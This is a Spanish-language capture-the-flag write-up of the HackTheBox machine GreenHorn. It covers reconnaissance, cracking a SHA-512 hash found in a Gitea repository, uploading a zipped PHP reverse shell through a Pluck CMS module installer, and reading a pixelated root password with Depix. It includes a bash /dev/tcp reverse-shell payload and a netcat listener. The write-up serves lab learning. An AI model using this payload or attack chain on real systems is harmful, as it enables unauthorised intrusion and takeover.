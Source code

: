 ```yaml
---
title: GreenHorn
date: 2024-08-03
categories: [WRITEUPS, HackTheBox]
tags: [pluck, depix]  # TAG names should always be lowercase
image: /assets/images/hackthebox/greenlogo.png
---
```


![picture](/assets/images/hackthebox/greenhorn1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos, será un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina, y conocer los servicios que corren por ellos.

```bash
nmap -p- --open -T5 10.10.11.25 -n -Pn -v
```

![picture](/assets/images/hackthebox/greenhorn2.png){: w="600" h="300" }

Añadimos el dominio **greenhorn.htb** junto con la *IP* al archivo **/etc/hosts**, esto se realiza para que resuelva el nombre del dominio.

![picture](/assets/images/hackthebox/greenhorn3.png)

Al no encontrar ningún puerto interesante por el que se pueda intentar algún tipo de explotación, vamos al navegador a ver de que se trata la página web tanto con el puerto **80**, como con el **3000**.

1. Puerto 80
    - Tras revisar la página web y su código, en busca de algún tipo de información, no he encontrado nada.

    ![picture](/assets/images/hackthebox/green4.png)

    - Haciendo un poco de **Fuzzing** manual, encontramos la ruta *http://greenhorn.htb/login.php*, en la que hay un panel de login de **Pluck** (gestor de contenidos CMS), con versión **4.7.18**, probando contraseñas comunes no he obtenido resultado.

    ![picture](/assets/images/hackthebox/green5.png){: w="600" h="300" }

2. Puerto 3000
    - En este puerto encontramos una web de **Gitea**, que es un paquete de software de código abierto para alojar el control de versiones utilizando **Git**. Navegando en esta web encontramos un repositorio llamado **GreenAdmin**.

    ![picture](/assets/images/hackthebox/green6.png)

    - Viendo el contenido de las carpetas del repositorio, nos encontramos con una contraseña cifrada en ***/data/settings***.

    ![picture](/assets/images/hackthebox/green7.png)

    ---

## **Explotación**

A continuación, vamos a intentar crackear la contraseña con ***John The Ripper*** en nuestra máquina local.

- Identificamos el tipo de cifrado hash con la herramienta **hash-identifier**, y vemos que el hash es del tipo "*SHA-512*".

    ![picture](/assets/images/hackthebox/green88.png)

- Se procede a crackear la contraseña cifrada, en busca de la contraseña en texto claro.

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512 hash.txt
    ```

    ![picture](/assets/images/hackthebox/green9.png)

Una vez encontrada la contraseña, se va a probar a entrar el el panel de **PLUCK**, y obtengo acceso.

![picture](/assets/images/hackthebox/green10.png)

Buscando en internet encontramos que la versión de **PLUCK** es vulnerable, en la parte de instalar módulos, podemos subir un archivo **.php**, el cual nos lo va a ejecutar.
La idea es subir una una **Reverse Shell** sencilla, pero hay un inconveniente, este CMS solo deja subir archivos **.zip**, con lo cual tendremos que modificar el archivo y crear un ***.zip***.

![picture](/assets/images/hackthebox/green11.png)

Nos ponemos en escucha con un **Listener** por el puerto **4444**, para que cuando subamos el archivo y nos ejecute la **Reverse Shell**, nos envíe una **Shell interactiva** a nuestra máquina local.

- Listener

    ```bash
    nc -nlvp 4444
    ```
- Reverse Shell (contenido)

    ```php
    exec("/bin/bash -c 'bash -i > /dev/tcp/Nuestra Ip/4444 0>&1'");
    ```

Y subimos el archivo **.zip**.

![picture](/assets/images/hackthebox/green12.png){: w="600" h="300" }

Una vez subido el archivo, nos envía la **Shell interactiva**, y estamos dentro de la máquina con el ussuario **www-data**.

![picture](/assets/images/hackthebox/green13.png){: w="600" h="300" }

---

## **Escalada de privilegios**

En el directorio **/home** encontramos un usuario llamado **junior**, probamos a conectarnos con la contraseña encontrada antes, y obtenemos acceso.

![picture](/assets/images/hackthebox/green14.png)

En el directorio personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/green15.png)

En el directorio personal, también encontramos un **pdf**, el cual nos lo vamos a traer a la máquina local para poder comprobar el contenido, para ello montamos un **servidor http** con **Python3** por el puerto **1234**, y nos lo descargamos con **wget** desde la máquina local.

```bash
python3 -m http.server 1234
```

![picture](/assets/images/hackthebox/green16.png)


Vemos que es una imagen con este texto, y una contraseña *pixelizada* e *ilegible*.

![picture](/assets/images/hackthebox/green17.png){: w="600" h="300" }

Para poder leer el contenido de la contraseña, vamos a utilizar una herramienta llamada ***DEPIX***, la cual podemos encontrar en [GitHub](https://github.com/spipm/Depix).

Antes convertimos el *pdf* al formato *ppm* con **pdfimages**.

![picture](/assets/images/hackthebox/green18.png)

Seguimos los pasos como lo indican en el repositorio de *GitHub*.

![picture](/assets/images/hackthebox/green19.png)

Y nos crea un archivo con la contraseña legible.

![picture](/assets/images/hackthebox/green20.png)

Probamos a migrar al usuario **privilegiado** **root**, obtenemos acceso, y en su directorio personal tenemos la segunda **flag**.

![picture](/assets/images/hackthebox/green21.png)

![picture](/assets/images/hackthebox/green22.png){: w="600" h="300" }


